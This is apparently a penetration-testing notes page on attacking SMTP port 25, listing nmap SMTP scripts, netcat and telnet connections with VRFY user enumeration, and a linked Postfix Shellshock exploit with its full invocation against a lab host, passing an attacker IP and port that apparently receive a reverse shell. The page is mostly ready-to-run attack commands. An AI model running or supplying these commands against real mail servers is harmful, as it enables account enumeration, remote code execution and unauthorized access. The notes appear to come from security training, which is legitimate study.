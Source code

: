 # SMTP Port 25

````
nmap --script=smtp* -p 25
````

````
nc -nv $ip 25
telnet $ip 25
EHLO ALL
VRFY <USER>
````

##### Exploits Found

SMTP PostFix Shellshock

````
https://gist.github.com/YSSVirus/0978adadbb8827b53065575bb8fbcb25
python2 shellshock.py 10.11.1.231 useradm@mail.local 192.168.119.168 139 root@mail.local #VRFY both useradm and root exist
````